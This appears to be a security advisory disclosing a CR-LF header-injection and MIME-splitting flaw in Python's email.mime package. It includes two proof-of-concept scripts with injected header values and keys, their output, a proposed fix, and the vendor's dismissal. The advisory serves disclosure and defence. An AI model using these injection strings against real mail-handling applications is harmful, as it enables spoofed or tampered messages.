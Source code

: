 ```yaml
---
title: "Python - MIME Splitting"
date: 2021-05-28T13:57:33+01:00

cve: 
vendor: python
vendorUrl: https://www.python.org/ 
authors: tintinweb
affectedVersions: [at least <= 3.8.3, <=3.7.7, <=2.7.18]
vulnClass: CWE-93

---
```



# Vulnerability Note

ref: https://consensys.net/diligence/vulnerabilities/python-mime-splitting/

## Summary 


>Python is a programming language that lets you work more quickly and integrate your systems more effectively.

The python `email.mime` package fails to properly encode or reject `CR-LF` control sequences in MIME header values allowing for MIME splitting and header injection attacks.

* `MIMEText[headerKey] = headerValue` - `headerValue` accepts `CR-LF` in the value, allowing an attacker in control of part of the header value to perform a MIME splitting attack.
* `MIMEText[headerKey] = headerValue` - `headerKey` is not checked for `CR-LF` allowing an attacker in control of part of a header key to inject arbitrary MIME headers.
* `MIMEText.add_header(headerKey, headerValue)` -  `headerKey` is not checked for `CR-LF` allowing an attacker in control of part of a header key to inject arbitrary MIME headers.

## Details

### MIME-Splitting with `CR-LF` in header value:

* Note: `CR-LF` injection in `To` header pushes an invalid header and may force a MIME split (depending on the parsing library) pushing following header values into the body when being parsed with the `email.message_from_string()` method.

```python
# Import the email modules we'll need
from email.mime.text import MIMEText

# Open a plain text file for reading.  For this example, assume that
# the text file contains only ASCII characters.

msg = MIMEText("REAL_MSG_BODY_BEGIN\n...\nREAL_MSG_BODY_END")

msg['Subject'] = 'The contents of is this...'
msg['To'] = "TO toAddress@oststrom.com\r\nX-SPLIT-MSG-TO-BODY\r\n"
msg['From'] = "FROM fromAddress@oststrom.com"
msg['MyHEader'] = "hi :: hi"

print(msg)
print(repr(msg))
print("=========================")
import email
msg = email.message_from_string(str(msg))  
print(msg)

print("-> FROM: %s" % msg.get("From")) 
print("-> TO:   %s" % msg["To"]) 
print("-> MSG:  " + repr(msg.get_payload()))


```

Output:

* Output before the `===========` is the constructed message
* Output after the `===========` is the parsed message
* Note: that after parsing the message some headers end up in the body (`from`, `myheader`). Note that `msg[from]` is empty.

```
⇒  python3 a.py   
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Subject: The contents of is this...
To: TO toAddress@oststrom.com
X-SPLIT-MSG-TO-BODY
From: FROM fromAddress@oststrom.com
MyHEader: hi :: hi

REAL_MSG_BODY_BEGIN
...
REAL_MSG_BODY_END
<email.mime.text.MIMEText object at 0x108842850>
=========================
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Subject: The contents of is this...
To: TO toAddress@oststrom.com

X-SPLIT-MSG-TO-BODY
From: FROM fromAddress@oststrom.com
MyHEader: hi :: hi

REAL_MSG_BODY_BEGIN
...
REAL_MSG_BODY_END
-> FROM: None
-> TO:   TO toAddress@oststrom.com
-> MSG:  'X-SPLIT-MSG-TO-BODY\nFrom: FROM fromAddress@oststrom.com\nMyHEader: hi :: hi\n\nREAL_MSG_BODY_BEGIN\n...\nREAL_MSG_BODY_END'
```


###  `CR-LF` injection in header keys.

Note: this is unlikely to be exploited, however, there might be scenarios where part of the header key is exposed to user input. A `CR-LF` character in the header key should throw instead.

```python
# Import the email modules we'll need
from email.mime.text import MIMEText

# Open a plain text file for reading.  For this example, assume that
# the text file contains only ASCII characters.

msg = MIMEText("REAL_MSG_BODY_BEGIN\n...\nREAL_MSG_BODY_END")

# me == the sender's email address
# you == the recipient's email address
msg['Subject'] = 'The contents of is this...'
msg['To'] = "TO toAddress@oststrom.com"
msg['From'] = "FROM fromAddress@oststrom.com"
msg['MyHEader'] = "hi :: hi"
msg["m\r\nh"] = "yo"

print(msg)
print(repr(msg))
print("=========================")
import email
msg = email.message_from_string(str(msg))  
msg.add_header("CUSTOM-HEADER: yo\r\n\nX-INJECTED: injected-header\r\naa","data")
print(msg)

print("-> FROM: %s" % msg.get("From")) 
print("-> TO:   %s" % msg["To"]) 
print("-> MSG:  " + repr(msg.get_payload()))


```

Output: `h: yo` and `X-INJECTED:` are injected

```
⇒  python3 a.py
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Subject: The contents of is this...
To: TO toAddress@oststrom.com
From: FROM fromAddress@oststrom.com
MyHEader: hi :: hi
m
h: yo

REAL_MSG_BODY_BEGIN
...
REAL_MSG_BODY_END
<email.mime.text.MIMEText object at 0x10076d850>
=========================
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Subject: The contents of is this...
To: TO toAddress@oststrom.com
From: FROM fromAddress@oststrom.com
MyHEader: hi :: hi
CUSTOM-HEADER: yo

X-INJECTED: injected-header
aa: data

m
h: yo

REAL_MSG_BODY_BEGIN
...
REAL_MSG_BODY_END
-> FROM: FROM fromAddress@oststrom.com
-> TO:   TO toAddress@oststrom.com
-> MSG:  'm\r\nh: yo\n\nREAL_MSG_BODY_BEGIN\n...\nREAL_MSG_BODY_END'
```


## Proposed Fix

- reject `\n` in header keys
- encode `\n` in header values to `\n\s+...` to signal a continuation of the header value. reject `\n+`

## Vendor Response

Vendor response: 

```
I discussed the vulnerability in private with one of the email module
maintainers and he considers that it's not a vulnerability.

Would you mind opening a public issue at https://bugs.python.org/ so
the discussion can be recorded in public?

Victor
```

### Timeline

```
JUL/02/2020 - contact psrt; provided details, PoC, proposed patch
AUG/20/2020 - vendor response: forwarded to maintainer of module
SEP/15/2020 - vendor response: not a security issue --> https://bugs.python.org/issue43123 for transparency
MAY/28/2021 - disclosed over a year a go. public disclosure.
```

## References

* [1] https://www.python.org/
* [2] https://www.python.org/downloads/
* [3] https://bugs.python.org/issue43123 